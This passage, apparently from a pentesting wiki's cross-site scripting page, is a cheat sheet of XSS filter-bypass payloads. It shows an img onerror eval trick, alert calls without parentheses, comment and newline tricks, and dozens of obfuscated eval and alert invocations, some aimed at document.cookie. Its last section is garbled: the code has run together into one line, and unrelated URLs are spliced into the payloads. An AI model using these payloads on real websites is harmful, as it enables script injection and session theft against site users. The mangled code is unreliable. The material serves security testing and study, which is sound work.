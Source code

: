 ```javascript
alert`1`
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
eval.call`${'alert\x2823\x29'}`
eval.apply`${[`alert\x2823\x29`]}`
```

* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

#### JavaScript comments (from [JavaScript Comments](#javascript-comments) trick)

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
#!This is a 1 line comment, but "#!" must to be at the beggining of the line
-->This is a 1 line comment, but "-->" must to be at the beggining of the line
```

#### JavaScript new lines (from [JavaScript new line](#javascript-new-lines) trick)

```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10) //0x0a
String.fromCharCode(13) //0x0d
String.fromCharCode(8232) //0xe2 0x80 0xa8
String.fromCharCode(8233) //0xe2 0x80 0xa8
```

#### Arbitrary function (alert) call

```javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}
```

//General function executions ``//Can be use as parenthesis alert`document.cookie` alert(document['cookie']) with(document)alert(cookie) (alert)(1) (alert(1))in"." a=alert,a(1) [1].find(alert) window['alert'](0) parent['alert'](1) self['alert'](2) top['alert'](3) this['alert'](4) frames['alert'](5) content['alert'](6) [7].map(alert) [8].find(alert) [9].every(alert) [10].filter(alert) [11].findIndex(alert) [12].forEach(alert); top[/al/.source+/ert/.source](1) top[8680439..toString(30)](1) Function("ale"+"rt(1)")(); new Function`al\ert\`6\``; Set.constructor('ale'+'rt(13)')(); Set.constructor`al\x65rt\x2814\x29```; $='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y) x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y)) this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array) globalThis[`al`+/ert/.source]`1`this[`al`+/ert/.source]`1`[alert][0].call(this,1) window['a'+'l'+'e'+'r'+'t']() window['a'+'l'+'e'+'r'+'t'].call(this,1) top['a'+'l'+'e'+'r'+'t'].apply(this,[1]) (1,2,3,4,5,6,7,8,alert)(1) x=alert,x(1) [1].find(alert) top["al"+"ert"](1) top[/al/.source+/ert/.source](1) al\u0065rt(1) al\u0065rt`1\` top['al\145rt'](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/pentesting-web/xss-cross-site-scripting/1/README.md) top['al\x65rt'](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/pentesting-web/xss-cross-site-scripting/1/README.md) top[8680439..toString(30)](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/pentesting-web/xss-cross-site-scripting/1/README.md)
